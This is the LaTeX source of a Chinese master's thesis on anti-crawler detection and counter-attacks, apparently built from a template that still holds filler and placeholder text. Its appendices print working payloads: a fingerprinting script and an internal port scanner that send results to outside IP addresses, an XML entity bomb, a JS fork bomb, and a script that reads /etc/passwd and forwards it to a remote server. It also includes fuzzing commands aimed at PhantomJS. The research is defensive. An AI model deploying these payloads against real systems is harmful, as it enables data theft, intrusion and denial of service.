\newtheorem*{axiomofchoice}{Axiom of choice}
\begin{axiomofchoice}
  Suppose $E$ is a set and ${E_\alpha}$ is a collection of
  non-empty subsets of $E$. Then there is a function $\alpha
  \mapsto x_\alpha$ (a ``choice function'') such that
  \begin{equation}
  x_\alpha \in E_\alpha,\qquad \text{for all }\alpha.
  \end{equation}
\end{axiomofchoice}

\newtheorem{observation}{Observation}[chapter]
\begin{observation}
  Suppose a partially ordered set $P$ has the property
  that every chain has an upper bound in $P$. Then the
  set $P$ contains at least one maximal element.
\end{observation}
\begin{proof}[A concise proof]
  Obvious.
\end{proof}

\newtheorem{observationvar2}[observation]{Observationvar2}
\begin{observationvar2}
  Suppose a partially ordered set $P$ has the property
  that every chain has an upper bound in $P$. Then the
  set $P$ contains at least one maximal element.
\end{observationvar2}
\begin{proof}[A concise proof]
  Obvious.
\end{proof}

我们在这儿插入一行字;

我们在这儿再插入一行字;

我们在这儿插入一行字;

我们在这儿再插入一行字;

我们在这儿插入一行字;

我们在这儿再插入一行字;

我们在这儿插入一行字;

我们在这儿再插入一行字;

我们在这儿插入一行字;

我们在这儿再插入一行字;

我们在这儿插入一行字;

我们在这儿再插入一行字;

我们在这儿插入一行字;

我们在这儿再插入一行字;

我们在这儿插入一行字;

我们在这儿再插入一行字;

我们在这儿插入一行字;

我们在这儿再插入一行字;

% 总结
%% !TeX root = ../Template.tex
% 总结
\summary
学位论文的结论单独作为一章,但不加章号。如果不可能导出应有的结论,也可以没有结论而进行必要的讨论。

\par * 嗯,这就是你的论文了 * \par

\summary

爬虫技术与反爬虫技术之间的对抗一直是经久不息的话题,以往的反爬虫相关的工作往往局限于对少量静态的HTTP请求信息的处理中,忽视了对动态信息的充分利用,而本文中则充分使用了浏览器的动态信息及隐式的人类浏览行为用于爬虫检测。另一方面,过去反爬虫研究针对的目标是不存在对抗行为的普通爬虫,一旦遇上使用了对抗策略的爬虫,往往会失去应有的效果,本研究则引入了基于浏览器指纹的session分类技术,来确保存在对抗行为的情况下session粒度上的爬虫识别效果。除此之外,缺乏有效的对抗技术也是当今反爬虫系统的一大硬伤,但是本文中提出的爬虫对抗技术,却从资源耗尽、信息窃取和内存破坏三个方面提出了新维度的对抗技术。 最终本文整合上述的理论,实现了具有良好效果的反爬虫原型系统,并对该系统做出了简要的评估。

本论文的主要研究工作总结如下:
\begin{itemize}
\item[1)] 对抗样本下的session分类方法:本文结合了传统的基于静态请求的特征的session方法,并进一步利用浏览器中具有较高熵值的浏览器指纹信息,最终基于经验建立相关模型并使用梯度下降求解模型参数取值,来实现对HTTP请求的session分类。

\item[2)] 多维度爬虫检测方法:本研究使用多维度的方法,来进行爬虫检测。这些方法包括传统的单粒度检测方法,改良的session粒度识别方法以及使用了诸如taint link技术的特殊检测方法。通过使用较完备的方法来保证爬虫识别的准确率和召回率。

\item[3)] 多维度爬虫对抗方法:本文使用多维度的方法,来进行爬虫对抗。这些方法包括资源耗尽型的攻击方法,信息窃取型的攻击方法,并使用了成熟的二进制漏洞挖掘技术和二进制漏洞挖掘工具,挖掘出相应的内存破坏漏洞,来实现新型的内存破坏的攻击方法。

\item[4)] 具有应用价值的反爬虫系统Crawler-Killer:结合上述的多维度爬虫检测方法以及爬虫对抗方法,我们实现了一套可以进行实时检测与对抗的反爬虫系统原型Crawler-Killer,并通过实验以及真实的爬虫对抗成果,论证了本系统的有效性和可靠性。
\end{itemize}

此外,本文的相关工作还收获了额外的成果,列举如下:
\begin{itemize}
\item 通过二进制漏洞挖掘技术发现PhantomJS的内存破坏漏洞一枚。
\item  通过二进制漏洞挖掘技术发现MacOS上的safari浏览器OOM漏洞一枚。
\item  通过Crawler-Killer发现某大型搜索引擎厂商的爬虫高危爬虫漏洞一枚。
\item  通过Crawler-Killer发现bing爬虫存在安全隐患。
\end{itemize}


本文采用的技术手段和方案,仍然存在待改进的地方,未来可以专注于以下问题,以构建出更为完备、通用的反爬虫技术:

\begin{itemize}
\item[1)] 本研究中使用的session分类方法以及爬虫检测方法,过于依赖javascript在客户端的执行并且将相关的内容回传的过程,但是已有的手段没有考虑,爬虫作者可能通过逆向相应的javascript或者直接篡改流量中的关键字段来绕过相关的检测。后续的研究需要给出完整的javascript混淆以及关键流量加密方案,来保证检测方法的有效性。

\item[2)]  爬虫技术与反爬虫技术的迭代,本质是一种技术上的对抗。一旦本文内容公开,那么随即而来的,可能是爬虫作者针对本文的检测方案和对抗策略生成相应的反制措施,那么如何在公开核心算法的同时又能保证相应反制措施实现的高成本?这也是未来的重要研究方向。

\item[3)] 本文中使用了过多的启发式算法,并且引入了大量人工设定的阈值和规则,例如在区分爬虫和恶意爬虫中引入了人工阈值。因此,尝试找到一种新的方案来降低这些阈值设定和调整的成本,甚至实现在不同web服务环境下具有适应性的算法,都将是很有意义的研究。

\end{itemize}
% 参考文献
% 2015版国标GBT7714-2015
% 2005版国标GBT7714-2005
\Bib{GBT7714-2015}{ref}




\appendix
% 附录

\section{动态特征获取}

通过在目标浏览器中执行相关javascript代码,可以获取目标浏览器中的动态特征。这些特征包括:webRTC特征,窗口特征,电池状态,html5的相关api接口,浏览器插件以及鼠标行为。部分函数之间有严格的顺序依赖关系,此外,还需要保证javascript在不同浏览器中的兼容性。

\lstset{language=JavaScript}
\begin{lstlisting}
var webrtc_res = 'internal ip: ';
var fp = '';
var window_info = "window size: " + window.outerWidth + 'x' +  window.outerHeight;
var close_time = '';
var special_func = 'special functions: ';
var battery_s = 'battery status: ';
var webaudio_s = 'webaudio status: '
var websocket_s = 'websocket status: ';
var webgl_s = 'webGL status: ';
var webrtc_s = 'webrtc status: ';
var plugins_s = 'plugins: ';
var all_events = {'onmouseover':0,'onmouseout':0, 'onmousedown':0, 'onmouseup':0, 'onmouseleave':0, 'onmouseenter':0, 'ondblclick':0, 'oncontextmenu':0, 'onclick':0, 'onkeydown':0, 'onkeypress':0, 'onkeyup':0 };
var event_res = 'mouse and keyboard events: ';
var newline = String.fromCharCode(10);

...
此处省略具体函数实现代码
...

hook_mouse_keyboard_event();
webrtc();
battery_status();
websocket_status();
webaudio_status();
webgl_status();
webrtc_status();
plugin_list();
special_function();
alert_detection();

function final(){
    return webrtc_res + newline + fp  + newline + window_info + newline + close_time + newline + battery_s +newline + webaudio_s + newline + websocket_s + newline + webgl_s + newline + webrtc_s + newline + plugins_s + newline + special_func + newline + event_res + JSON.stringify(all_events) + newline;
}
setTimeout(function() {var f = final();console.log(f);window.location.href='http://4.1.5.4/1.php?a=' + btoa(f);}, 1000);
\end{lstlisting}


\section{示例攻击载荷}

\subsection{资源耗尽型攻击代码}
资源耗尽型攻击代码通过大量的死循环以及递归,来实现对爬虫宿主机计算和存储资源的大量消耗,从而实现干扰爬虫正常运行的目标。

如下所示是billion laugh的攻击载荷,通过大量的参数实体间的相互引用,使得最后输出的xml内容中包含指数级数量的lol字符串。
\lstset{language=JavaScript}
\begin{lstlisting}
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
\end{lstlisting}

如下所示是js fork bomb的攻击载荷,该攻击载荷通过指数级的fork来耗尽对爬虫宿主系统的计算资源,直至其无法再fork新的进程为止:
\lstset{language=JavaScript}
\begin{lstlisting}
function die () {
  setTimeout(function () {die(); die()}, 0)
}
die();
\end{lstlisting}


\subsection{示例端口扫描程序}

该攻击载荷用于在爬虫所使用的无头浏览器中运行,获取爬虫所在宿主机内网中的端口开放情况。因为unsafe ports的浏览器安全机制的限制,部分关键端口无法扫描。扫描完成后,会将扫描结果通过窗口跳转机制传输到指定的服务器上。

\lstset{language=JavaScript}
\begin{lstlisting}
var result="";
var newline = String.fromCharCode(10);
function scanPort(target,port,timeout)
{
  var time = Date.now();
	var img=new Image();
	img.onerror=function ()
	{
	   console.log( target + ':' + port + '  ' + (Date.now() - time) + 'ms');
		if (!img) return;
		img=undefined;
		out(target,port,"open");
	}

	img.onload=img.onerror;
	img.src='http://'+target+':'+port;

	setTimeout(function() {
		if (!img) return;
        img = undefined;
		out(target,port,"close");
		},timeout);
}

function scanTarget(target,port,timeout)
{
	for(i=0;i<port.length;i++)
		scanPort(target,port[i],timeout);
}

var out=function(target,port,status) {
	result+=target+':'+port+'  '+status+newline;
	console.log(target+':'+port+'  '+status+newline);
}

var scan=function(target,port,timeout)
{
	scanTarget(target, port.split(','), timeout);
}

scan("192.168.244.154","80,443,445,1521,2222,3306,3389,5901,6379,\
7001,8000,8001,8005,8080,8888,22222",1000);
setTimeout(function() {window.location.href="http://8.90.144.214/1.php?b="+result;},2000);

\end{lstlisting}

\subsection{任意文件读取攻击载荷}

该攻击载荷一旦成功执行,可以在爬虫所在的宿主机上读取任意文件并发送到远程服务器。但是因为该攻击载荷使用了cross origin request的技巧,因此要求爬虫在本地文件系统上渲染该文件,且无头浏览器安全策略不限制file协议的使用。

\lstset{language=JavaScript}
\begin{lstlisting}
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
	    window.location.href="http://7.9.5.4/index.php?msg=" + xhr.responseText;
    }
}
xhr.open('GET', 'file:///etc/passwd', true);
xhr.send(null);
\end{lstlisting}




\section{漏洞挖掘与分析}

\subsection{漏洞挖掘AFL示例}
如下表\ref{tab:afl-env}所示,是AFL工具使用的漏洞挖掘环境。

\begin{table}[h]
  \caption{AFL漏洞挖掘环境概况}
  \label{tab:afl-env}
  \centering
\begin{tabular}{|p{3cm}<{\centering}|p{3cm}<{\centering}|p{3cm}<{\centering}|p{1cm}<{\centering}|p{3cm}<{\centering}|}
    \hline
   \textbf{操作系统版本} & \textbf{内核版本} & \textbf{处理器} & \textbf{内存} &  \textbf{AFL版本}   \\
    \hline
ubuntu 16.04 x64 &  4.4.0-151-generic & 4 cores Intel(R) Xeon(R) Platinum 8269CY CPU @ 2.50GHz & 8G   & pythia (afl 2.5.1b) \\
\hline
    \end{tabular}
\end{table}



首先使用AFL提供的afl-gcc以及afl-g++来编译PhantomJS,二次编译的目的是为了在程序中插桩,通过插桩来获取程序运行时的执行路径,以此来计算fuzz的覆盖率指标。

\lstset{language=JavaScript}
\begin{lstlisting}
CC=/usr/local/bin/afl-gcc CXX=/usr/local/bin/afl-g++  CXXFLAGS="-Winvalid-pch" python build.py
\end{lstlisting}

为了使得PhantomJS能够加载和渲染相应的网页,我们需要编写额外的javascript的程序进行引导。该程序只需要实现访问网页并渲染的基本功能即可:

\lstset{language=JavaScript}
\begin{lstlisting}
"use strict";
var page = require('webpage').create(),address, output,system = require('system'),
output = "/var/www/html/out.png";
page.content = '<html><h1>hello world!</h1></html>';
page.content = system.stdin.readLine();
window.setTimeout(function () {
            page.render(output);
            phantom.exit();
        }, 200);
\end{lstlisting}

此外,我们选取了一个使用domato生成的svg文件做为原始输入进行fuzz,svg文件的内容如下:
\lstset{language=JavaScript}
\begin{lstlisting}
<?xml version='1.0' ?><svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1" width="54" height="179\%"><desc>c</desc><style type="text/css"> {c: ;}</style><defs><marker id="a" stroke="url(#h)"><line  stroke-dasharray="0.1" x1="-24\%" y1="100\%" x2="-0.1" y2="1" /></marker></defs></svg>
\end{lstlisting}

为了充分利用高性能服务器的计算能力,我们使用一个master进程,三个slave进程的方式进行并发fuzz:

\lstset{language=JavaScript}
\begin{lstlisting}
afl-fuzz -i input/ -o output/ -m none -M fuzzer01   -- phantomjs_afl /root/fuzz/test/test3.js
afl-fuzz -i input/ -o output/ -m none -S fuzzer02   -- phantomjs_afl /root/fuzz/test/test3.js
afl-fuzz -i input/ -o output/ -m none -S fuzzer03   -- phantomjs_afl /root/fuzz/test/test3.js
afl-fuzz -i input/ -o output/ -m none -S fuzzer04   -- phantomjs_afl /root/fuzz/test/test3.js
\end{lstlisting}

通过十几天的fuzz,我们获取到了大量的hangs(超时错误),如图\ref{fig:hangs}所示。hangs类型的错误产生的直接原因是因为程序对该样本的处理时间过长,导致程序没有在指定的时间限制反馈出相应输出。一般hangs类型错误是会被忽略的,但是在一些情况下,hangs类型的错误也意味着一部分的样本触发了占用大量资源的操作,通过精心构造的攻击载荷,有一定的可能性能够触发资源耗尽型的攻击。

\centerline{}
\begin{figure}[!h]
  \centering
  
\includegraphics[width=0.68\textwidth]{images/afl_hangs.png}
  \caption{AFL hangs}
  \label{fig:hangs}
\end{figure}



% 攻读学位期间成果
\achievement

  


\acknowledgments

首先要感谢我的导师李舟军教授对我的辛勤指导和教诲,在我的研究生学习生活中,李老师提供给我很多有大智慧的建议和关键的引导,让我无需再黑暗中独自摸索。其次要感谢新加坡国立大学的梁振凯副教授对我的帮助,我在NUS交流的三个月中,他不仅提供了大量关于爬虫webdriver漏洞挖掘的建议,也提供给我这样一个平台,在这里我通过和其他NCL 成员的交流锻炼了基本的科研能力。此外,还要感谢清华-奇安信联合研究中心的小伙伴们,他们为我的研究提供了极为关键的数据,这些数据包括10万条清华某网站的请求数据,10万条360天眼恶意攻击数据以及检测恶意攻击数据的相关规则,是这些数据支撑起了我的整个研究。也要感谢北航Lancet战队的队员们,这两年半的时光我们一起征战南北,捧起了无数的奖杯和荣誉。

最后也要感谢父母对我的养育教导之恩,他们一直在身后默默地给我支持。还要感谢我自己通过大量健身运动锻炼的优秀身体素质和通过大量阅读建立起的优秀心理素质,才能在短短两年半的时间内抗住这么多高强度的比赛,科研和学术交流。

谢谢你们!


% 致谢
%% !TeX root = ../Template.tex
% [致谢]
\acknowledgments

致谢中主要感谢指导教师和在学术方面对论文的完成有直接贡献及重要帮助的团体和人士,以及感谢给予转载和引用权的资料、图片、文献、研究思想和设想的所有者。致谢中还可以感谢提供研究经费及实验装置的基金会或企业等单位和人士。致谢辞应谦虚诚恳,实事求是,切记浮夸与庸俗之词。

\par * 嗯,感谢完所有人之后,也请记得感谢一下自己 * \par

% 作者简介
%% !TeX root = ../Template.tex
% [作者简介]
\biography
博士学位论文应该提供作者简介,主要包括:姓名、性别、出生年月日、民族、出生的;简要学历、工作经历(职务);以及攻读博士学位期间获得的其他奖项(除攻读学位期间取得的研究成果之外)。

\par * 嗯,“硕士学位论文无此项”,《手册》上是这么说的 * \par

\vspace{5cm}




\end{document}
